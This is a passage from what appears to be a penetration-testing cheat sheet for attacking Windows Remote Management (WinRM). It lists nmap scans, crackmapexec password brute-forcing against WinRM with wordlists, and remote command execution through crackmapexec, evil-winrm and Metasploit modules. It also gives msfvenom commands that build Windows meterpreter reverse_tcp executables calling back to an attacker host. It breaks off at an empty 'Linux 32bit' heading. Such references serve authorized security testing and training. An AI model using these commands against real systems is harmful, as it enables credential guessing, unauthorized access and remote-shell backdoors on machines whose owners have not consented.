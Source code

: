 ```bash
# WINRM
crackmapexec [OPTIONS]
evil-winrm -i <IP> -u <USER> -p <PASSWORD>

nmap --top-ports 7000 <TARGET_IP>
nmap -sV -p 5985 <TARGET_IP>
```

```bash
crackmapexec winrm <TARGET_IP> -u <USER> -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "whoami"
crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "systeminfo"
```

```bash
# Command Shell
evil-winrm.rb -u <USER> -p '<PW>' -i <TARGET_IP>
```

```bash
## METASPLOIT
# WinRM
search type:auxiliary winrm
use auxiliary/scanner/winrm/winrm_auth_methods

# Brute force WinRM login
search winrm_login
use auxiliary/scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Launch command
search winrm_cmd
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME <USER>
set PASSWORD <PW>
set CMD whoami

search winrm_script
use exploit/windows/winrm/winrm_script_exec
set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true
```

### **Payloads**

**MSFVenom shells**

```bash
msfvenom --list payloads
msfvenom --list formats
msfvenom --list encoders

# Win 32bit
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x86>.exe

# Win 64bit
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x64>.exe

# Linux 32bit
```